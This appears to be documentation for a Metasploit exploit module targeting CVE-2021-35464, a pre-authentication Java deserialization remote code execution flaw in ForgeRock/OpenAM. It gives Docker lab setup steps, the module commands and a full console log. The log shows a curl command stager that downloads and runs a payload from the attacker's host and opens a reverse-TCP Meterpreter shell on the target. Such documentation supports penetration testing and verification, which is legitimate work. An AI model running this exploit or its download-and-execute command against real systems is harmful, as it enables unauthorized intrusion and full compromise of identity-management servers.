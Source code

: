 ## Vulnerable Application

### Description

This module leverages a pre-authentication remote code execution vulnerability
in ForgeRock’s AM identity and access management solution. The vulnerability
arises from a Java deserialization flaw in AM’s implementation of the JATO
framework and can be triggered by a simple one-line GET or POST request to a
vulnerable endpoint. Successful exploitation yields code execution on the
target system.

### Installation


#### Ubuntu 20.04.2x64 with Docker version 20.10.2
```
sudo docker run -h localhost -p 7080:8080 --name openam openidentityplatform/openam
Navigate to http://<ip_address>:7080/opanam
Follow manual configuration steps.  Automatic appears to fail
Default values are good for everything except ports.  Use the following values:
DIRECTORY_ADMIN_PORT = 4444
DIRECTORY_JMX_PORT = 1689
DIRECTORY_PORT = 50389
```

## Verification Steps
1. OpenAM
1. Perform manual configuration of OpenAM
1. Do: `use exploit/multi/http/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### Ubuntu 20.04.2x64 with Docker version 20.10.2
```
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.134.134  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                         hine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > run

[*] Started reverse TCP handler on 192.168.135.197:8443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Zrrhm8JKIL8QB2Q
[*] Local IP: http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q
[*] Generated command stager: ["curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP"]
[+] Successfully executed command: curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP
[*] Client 192.168.134.134 (curl/7.64.0) requested /Zrrhm8JKIL8QB2Q
[*] Sending payload to 192.168.134.134 (curl/7.64.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.134.134
[*] Command Stager progress - 100.00% done (123/123 bytes)
[*] Meterpreter session 11 opened (192.168.135.197:8443 -> 192.168.134.134:44944) at 2021-07-02 15:59:30 -0500
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.9 (Linux 5.8.0-53-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > 

```

